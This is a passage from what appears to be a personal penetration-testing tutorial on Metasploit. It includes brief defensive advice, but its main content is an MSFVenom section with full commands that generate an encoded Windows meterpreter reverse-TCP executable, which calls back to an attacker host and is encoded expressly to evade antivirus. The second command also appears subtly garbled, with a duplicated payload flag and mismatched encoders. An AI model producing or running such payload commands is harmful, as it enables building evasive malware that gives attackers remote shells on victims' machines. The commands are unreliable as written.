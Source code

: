 to use Unicode showing characters.

To keep this connection, use `background` to save the session to background, and then use `sessions -i` to return.



Similarly, if you want to hack other platforms, such as Linux/Databases/Web Stacks, you can also use similar steps as it shown above.



#### Defend of Vulnerability Exploits

User should always pay attention for their information security, both from their mind and action:

* Using the latest stable version software

* Implement system update and turn on the anti-malware software

* Do not open unnecessary function in case of lacking of maintenance, especially for enterprises

  My previous employer is one of the great model implementing this: HSBC allow no employees to download, install and run exe software from external website, even from official. When you want to use some software, they need to raise a GSR request for centralized push or use source code to compile by themselves. 

* Function isolation and use well-recognized enterprise-level platform could maximize the difficulty of  vulnerability exploits.





### MSFVenom: Client Penetration

Combined `msfpayload` and `msfencode`, a tools for generating malware across all major operation system (Win/Linux/Android/...) with utilities to capture and send instruction (msfpayload) and encoding to anti-anti-virus.

Users can simply use a line of code to generate an virus for windows

```shell
msfvenom -a x86 \                #software architecture
		 --platform windows \    # where would you like to run this virus     
		 -p windows/meterpreter/reverse_tcp LHOST=192.168.128.32 LPORT=4444 \  # payload, you need to use msf start it your self. payload setting should be attacker's machine
		 -b "\x00" \               # clean bad character, otherwise may be unable to run
		 -e x86/shikata_ga_nai \   # encoder, for anti-anti-virus
		 -i 10 \                   # how many times you want to encode
		 -f exe \                  # output format
		 -o [where/you/want/to/output.exe]
```

If you this this encoding is not good enough, you can make multiple times of encoding

```shell
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp -p windows/meterpreter/reverse_tcp LHOST=192.168.128.32 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -i 10 | msfvenom -a x86 --platform windows -e x64/alpha_upper -i 10 -f exe -o [where/you/want/to/output.exe]
```
